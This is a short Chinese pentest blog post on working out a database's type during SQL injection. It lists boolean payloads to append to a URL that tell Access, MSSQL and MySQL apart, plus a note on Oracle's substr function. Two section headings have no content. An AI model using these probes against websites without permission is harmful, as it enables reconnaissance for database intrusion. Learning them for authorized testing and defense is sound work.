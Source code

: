 +++
date = "2016-06-19T22:15:52+08:00"
description = ""
draft = false
tags = ["injection"]
title = "SQL注入之判断数据库类型"
topics = ["Pentest"]

+++

### 0x01 扫描端口

### 0x02 指纹信息

### 0x03 在URL后面直接判断
> ```
Access:
    and (select count(*) from MSysAccessObjects)>0 返回正常说明是access
    and exists(select count(*) from 表)
SQLserver:
    and (select count(*) from sysobjects) >0 返回正常说明是mssql
MySQL:
    and length(user())>0    返回正常说明是MySQL
```

### 0x04 其他方法
> ```
在mssql中可以调用substring。oracle则只可调用substr
```
